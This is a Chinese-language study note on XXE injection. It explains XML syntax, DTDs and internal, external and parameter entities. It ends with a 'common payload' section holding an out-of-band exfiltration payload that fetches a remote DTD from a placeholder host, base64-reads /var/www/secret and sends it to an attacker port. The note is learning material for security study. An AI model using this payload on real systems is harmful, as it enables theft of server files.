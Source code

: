 # xxe

## 链接

https://thief.one/2017/06/20/1/

https://v0w.top/2019/01/20/XXE-note/

https://www.freebuf.com/articles/web/177979.html

https://www.w3school.com.cn/xml/xml_intro.asp

## xml语法基础

xml 是语法类似html

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note>
```

`<note>`:根元素

所有元素均可拥有文本内容和属性（类似 HTML 中）。

#### xml特性

- 所有xml元素必须有关闭标签
- xml标签对大小写敏感
- xml文档必须有根元素
- xml属性值必须加引号
- 在 XML 中，文档中的空格不会被删节

#### xml dtd

这里我们要关注的是外部实体,和引用实体

##### dtd定义

文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。

DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。

##### 内部的 DOCTYPE 声明

假如 DTD 被包含在您的 XML 源文件中，它应当通过下面的语法包装在一个 DOCTYPE 声明中：

```
<!DOCTYPE 根元素 [元素声明]>
```

带有 DTD 的 XML 文档实例：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE note [			这是DTD内部声明		  <!ELEMENT note (to,from,heading,body)>  
 <!ELEMENT to      (#PCDATA)>  
 <!ELEMENT from    (#PCDATA)>  
 <!ELEMENT heading (#PCDATA)> 
 <!ELEMENT body    (#PCDATA)>
 ]>							
<note>  
<to>George</to>  
<from>John</from>  
<heading>Reminder</heading>  
<body>Don't forget the meeting!</body>
</note>
```

**以上 DTD 解释如下：**

- **!DOCTYPE note** (第二行)定义此文档是 *note* 类型的文档。

- **!ELEMENT note** (第三行)定义 *note* 元素有四个元素：”to、from、heading,、body”

- **!ELEMENT to** (第四行)定义 *to* 元素为 “#PCDATA” 类型

  (之后类似)

**这里有一个小重点Tips：**

- “#PCDATA” 类型为被解析的字符数据（parsed character data）。表示读文件按照XML格式进行解析
- “#CDATA”类型为字符数据（character data）。表示读文件但是不用解析，直接读文件的原始内容

##### dtd元素

`<!ELEMENT 元素名称 类别>`

`<!ELEMENT 元素名称 (元素内容)>`

##### 一个内部实体声明

语法：

```repl
<!ENTITY 实体名称 "实体的值">
```

例子：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo 
[
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >
]
>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

我们使用 &xxe 对 上面定义的 xxe 实体进行了引用，到时候输出的时候 &xxe 就会被 “test” 替换。

##### 一个外部实体声明

语法：

```
<!ENTITY 实体名称 SYSTEM "URI/URL">
```

例子：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo 
[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >
]>
<creds>    
<user>&xxe;</user>    
<pass>mypass</pass>
</creds>
```

##### 参数实体：

```xml
<!ENTITY % 实体名称 "实体的值">或者<!ENTITY % 实体名称 SYSTEM "URI">
```

参数实体只能在DTD中调用,调用方法:`%实体名称`







## 有回显的任意文件读取

## 常用payload

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [ 
<!ENTITY % dtd SYSTEM "http://x.x.x.x/evil.txt"> 
%dtd;%int;%send; ]> 

evil.txt
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/secret">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://x.x.x.x:9999/?p=%file;'>">
```

通过 `<![CDATA[`和 `]]>`将payload包裹起来，使其不解析为XML就可以读取文件

